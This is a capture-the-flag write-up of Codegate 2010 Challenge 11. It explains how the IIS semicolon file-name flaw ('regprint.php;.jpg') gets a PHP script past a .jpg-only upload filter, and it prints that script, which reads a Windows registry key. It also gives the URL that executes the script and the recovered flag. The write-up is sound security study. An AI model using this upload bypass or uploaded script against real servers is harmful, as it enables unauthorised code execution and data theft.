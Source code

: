 ```yaml
---
title: Codegate 2010 Challenge 11 writeup
author: hieu le
layout: post

aktt_notify_twitter:
  - no
tweetbackscheck:
  - 1408358982
shorturls:
  - 'a:4:{s:9:"permalink";s:69:"http://www.vnsecurity.net/2010/03/codegate-2010-challenge-11-writeup/";s:7:"tinyurl";s:26:"http://tinyurl.com/y95rqv8";s:4:"isgd";s:18:"http://is.gd/aOuhl";s:5:"bitly";s:20:"http://bit.ly/aCd8li";}'
twittercomments:
  - 'a:2:{i:10694573292;s:7:"retweet";i:10669504654;s:7:"retweet";}'
tweetcount:
  - 2
categories:
  - 'CTF - CLGT Crew'
tags:
  - '2010'
  - CLGT
  - codegate
  - Cryptography
  - CTF
  - IIS
  - PHP
  - semi-colon vulnerability
---
```

<h2 id="Summary" style="font-family: Georgia, 'Bitstream Vera Serif', 'New York', Palatino, serif;font-weight: normal;letter-spacing: -0.018em;font-size: 20px;clear: none;color: #366d9c;border-bottom-width: 1px;border-bottom-style: solid;border-bottom-color: #ffdb4c;margin: 0px">
  Summary<a title="Link to this section" href="#Summary"></a>
</h2>

[<span> </span>http://ctf6.codegate.org/31337_/index.html][1]

Get a value of HKLMSoftwarecodegate2010, it&#8217;s the flag.

<h2 id="Analysis" style="font-family: Georgia, 'Bitstream Vera Serif', 'New York', Palatino, serif;font-weight: normal;letter-spacing: -0.018em;font-size: 20px;clear: none;color: #366d9c;border-bottom-width: 1px;border-bottom-style: solid;border-bottom-color: #ffdb4c;margin: 0px">
  Analysis<a title="Link to this section" href="#Analysis"></a>
</h2>

At first when accessing the url, it shows up a page allow you to upload a jpeg image and only .jpg files. As I noticed, it serves by IIS. Suddenly, I remember of the vulnerability of IIS in processing image files. A little bit google show me the result. Ah ha, let&#8217;s test it by uploading a php file likes &#8220;test.php;.jpg&#8221;. Incredible!

<p style="text-indent: 0.5em">
  Now, the only thing we have to do is writing some lines of php to read the REG key.
</p>

<pre style="background-color: #f7f7f7;margin-top: 1em;margin-right: 1.75em;margin-bottom: 1em;margin-left: 1.75em;padding: 0.25em;border: 1px solid #d7d7d7">regprint.php;.jpg
&lt;?
$shell = new COM("WScript.Shell") or die("Requires Windows Scripting Host");
$devenvpath=$shell-&gt;RegRead("HKEY_LOCAL_MACHINE\SOFTWARE\codegate2010");
echo $devenvpath
?&gt;</pre>

Then, execute it by [<span> </span>http://ctf6.codegate.org/31337_/upload/regprint.php;.jpg][2]

<p style="text-indent: 0.5em">
  <tt>LollerSkaterz_From_RoflCopters_With_Guinness</tt>
</p>

<p style="text-indent: 0.5em">
  Easy game with 1200 point.
</p>

<h2 id="Vulnerability" style="font-family: Georgia, 'Bitstream Vera Serif', 'New York', Palatino, serif;font-weight: normal;letter-spacing: -0.018em;font-size: 20px;clear: none;color: #366d9c;border-bottom-width: 1px;border-bottom-style: solid;border-bottom-color: #ffdb4c;margin: 0px">
  Vulnerability<a title="Link to this section" href="#Vulnerability"></a>
</h2>

In facts, after the game thaidn said that it&#8217;s a fault of deploying the challenge, it&#8217;s designed to be passed by a 0-day of core php.

<h2 id="References" style="font-family: Georgia, 'Bitstream Vera Serif', 'New York', Palatino, serif;font-weight: normal;letter-spacing: -0.018em;font-size: 20px;clear: none;color: #366d9c;border-bottom-width: 1px;border-bottom-style: solid;border-bottom-color: #ffdb4c;margin: 0px">
  References<a title="Link to this section" href="#References"></a>
</h2>

*   [<span> </span>http://soroush.secproject.com/blog/2009/12/microsoft-iis-semi-colon-vulnerability/][3]
*   Keywords: IIS, semi-colon vulnerability

 [1]: http://ctf6.codegate.org/31337_/index.html
 [2]: http://ctf6.codegate.org/31337_/upload/regprint.php;.jpg
 [3]: http://soroush.secproject.com/blog/2009/12/microsoft-iis-semi-colon-vulnerability/
